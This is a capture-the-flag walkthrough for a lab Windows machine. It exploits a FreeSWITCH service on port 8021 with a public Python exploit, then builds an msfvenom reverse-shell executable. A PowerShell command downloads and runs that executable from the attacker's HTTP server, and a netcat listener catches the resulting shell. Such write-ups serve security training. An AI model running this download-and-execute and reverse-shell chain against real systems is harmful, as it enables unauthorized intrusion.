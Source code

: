 Oh nice a windows machine!

The port 8021 got a weird service running

wikipedia said:

>FreeSWITCH is a free and open-source application server for real-time communication, WebRTC, telecommunications, video and Voice over Internet Protocol (VoIP).

Yeah now for the fun part, I add "exploit" to my search query

Found some exploitdb results but I dont know the version

I also found a metasploit module but...hey let's try the python exploit first

```bash
└──╼ $python3 exploit.py 10.10.58.12 whoami
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```

well...it works so we should get a reverse shell from this (remember! it's windows)
We use a powershell payload (google or craft it with msfvenom)

So I craft it!

```bash
└──╼ $msfvenom -p windows/shell_reverse_tcp LHOST=10.8.226.203 LPORT=4444 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Serve it!

```bash
└──╼ $sudo python3 -m http.server
[sudo] Mot de passe de nair0lf:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Send it! (and execute it)

```bash
└──╼ $python3 exploit.py 10.10.58.12 "powershell.exe Invoke-WebRequest -Uri http://10.8.226.203:8000/shell.exe -OutFile ./shell.exe && .\shell.exe"
Authenticated
```

Get in!

```bash
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 49845
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\FreeSWITCH>

```
FLAG 1 acquired!
